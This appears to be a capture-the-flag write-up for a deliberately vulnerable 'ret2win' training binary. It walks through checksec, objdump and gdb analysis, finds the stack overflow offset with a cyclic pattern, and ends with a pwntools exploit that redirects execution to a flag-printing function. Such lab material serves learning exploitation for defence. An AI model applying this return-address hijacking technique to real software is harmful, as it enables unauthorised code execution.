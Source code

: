 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a871295b6234edb261710bcc73a8c03e3c0f601d, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols     No	0		3	ret2win

```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
objdump -t ret2win
...
00000000004007b5 l     F .text	000000000000005c              pwnme
0000000000400811 l     F .text	0000000000000020              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, print some strings and get an input;
- ret2win perfom a system comand "cat flag.txt"

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:	push   rbp
   0x0000000000400812 <+1>:	mov    rbp,rsp
   0x0000000000400815 <+4>:	mov    edi,0x4009e0
   0x000000000040081a <+9>:	mov    eax,0x0
   0x000000000040081f <+14>:	call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:	mov    edi,0x4009fd
   0x0000000000400829 <+24>:	call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:	nop
   0x000000000040082f <+30>:	pop    rbp
   0x0000000000400830 <+31>:	ret    
End of assembler dump.
pwndbg> x/s 0x4009fd
0x4009fd:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32

...
```

32 byte to EBP ( +8 to EIP = 40 ). Final exploit:



```python
  1 #!/usr/bin/python3
  2 
  3 import struct
  4 from pwn import *
  5 
  6 ret2win_addr = 0x0000000000400811
  7 
  8 shellcode = ("A"*40).encode()
  9 shellcode += struct.pack("<Q", ret2win_addr)
 10 
 11 p = process('./ret2win')
 12 
 13 p.recvuntil('>')
 14 p.sendline(shellcode)
 15 print(p.recvall())
```
